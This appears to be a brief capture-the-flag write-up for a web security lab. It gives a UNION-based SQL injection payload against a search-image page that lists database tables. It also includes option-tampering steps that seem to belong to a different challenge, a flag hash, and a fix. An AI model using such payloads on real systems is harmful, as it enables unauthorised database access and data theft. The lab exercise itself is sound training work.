 # Where: <br>
    /?page=searchimg
# How:
    -By entering<br>
    *-1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()*
    -Change the value of 1 of the options to an invalid value.
    Or
    -Add an invalid option.
    -Select the invalid value
    -Receive the flag
# Flag:
    03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA
# Fix:
    Store options server side/on backend.All user input should be sanitised and validated (backend).